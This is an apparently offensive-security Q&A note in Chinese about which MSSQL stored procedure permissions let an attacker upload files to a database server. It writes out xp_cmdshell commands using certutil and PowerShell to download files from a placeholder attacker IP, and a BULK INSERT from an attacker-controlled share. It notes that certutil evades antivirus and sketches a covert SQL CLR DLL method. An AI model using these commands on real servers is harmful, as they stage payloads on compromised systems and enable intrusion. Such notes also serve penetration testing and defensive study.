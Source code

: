 ### 如果想通过 MMSQL 上传文件需要开启哪个存储过程的权限

**1. 利用 `xp_cmdshell` 存储过程（最常见）**

如前面所述，`xp_cmdshell` 是执行系统命令的利器。一旦你获得了执行 `xp_cmdshell` 的权限（通常是 `sysadmin`），就可以通过它来执行命令行下的文件上传操作

- **所需权限**：`sysadmin` 服务器角色或 `CONTROL SERVER` 权限，并且 `xp_cmdshell` 必须已启用

- **实现方法**：

  - **方法一：利用 `certutil` 下载文件** 这是最常见且非常实用的方法，它利用 Windows 自带的 `certutil.exe` 工具来下载文件

    ```sql
    EXEC xp_cmdshell 'certutil.exe -urlcache -split -f "http://<攻击机IP>/<文件名>" "c:\\<文件保存路径>\\<文件名>"';
    ```

    这种方法的好处是，`certutil` 是 Windows 系统自带的，不容易被杀毒软件拦截

  - **方法二：利用 PowerShell 下载文件** 使用 PowerShell 的 `Invoke-WebRequest` 或 `Net.WebClient` 方法来下载文件

    ```sql
    EXEC xp_cmdshell 'powershell.exe -c "Invoke-WebRequest -Uri http://<攻击机IP>/<文件名> -OutFile c:\\<文件保存路径>\\<文件名>"';
    ```

    或者使用更简单的别名：

    ```sql
    EXEC xp_cmdshell 'powershell.exe -c "iwr http://<攻击机IP>/<文件名> -OutFile c:\\<文件保存路径>\\<文件名>"';
    ```

  - **方法三：利用其他命令行工具** 如果目标机器上安装了 `wget`、`curl` 等工具，你也可以使用它们

**2. 利用数据库的 `OPENROWSET` 或 `BULK INSERT`**

这种方法相对不那么常见，但如果 `xp_cmdshell` 被禁用，这是一种可以尝试的备选方案。它主要利用 MSSQL 强大的文件处理能力

- **所需权限**：

  - `sysadmin` 或 `bulkadmin` 角色
  - `BULK INSERT` 需要对目标文件夹有写权限，并且 `OPENROWSET` 必须启用 `Ad Hoc Distributed Queries`

- **实现方法**：

  - **方法一：`OPENROWSET`** 这种方法可以从一个共享网络路径（UNC Path）读取数据，并插入到数据库表中。虽然它主要用于数据导入，但你可以利用它将文件内容导入到数据库，再通过其他方式导出

  - **方法二：`BULK INSERT`** 和 `OPENROWSET` 类似，`BULK INSERT` 也能从网络共享路径读取文件数据

    ```sql
    BULK INSERT MyTable
    FROM '\\<攻击机IP>\share\<文件名>'
    WITH (
      ROWTERMINATOR = 'EOF',
      DATA_SOURCE = 'MyDataSource'
    );
    ```

    这种方法需要 MSSQL 服务的运行用户对网络共享路径有读取权限

**3. 利用 SQL CLR 集成**

这是一种高级且隐蔽的上传文件方法。如果你能够执行 SQL CLR 代码，你就可以编写一个 .NET 存储过程，该存储过程包含文件读写功能

- **所需权限**：`sysadmin` 或 `EXTERNAL ACCESS ASSEMBLY` 权限
- **实现方法**：
  1. 用 C# 编写一个可以从 URL 下载文件并保存到本地的 DLL
  2. 将 DLL 文件上传到服务器，或者通过 `xp_cmdshell` 下载
  3. 使用 SQL 命令将 DLL 注册为 SQL CLR 程序集
  4. 执行你编写的存储过程，实现文件上传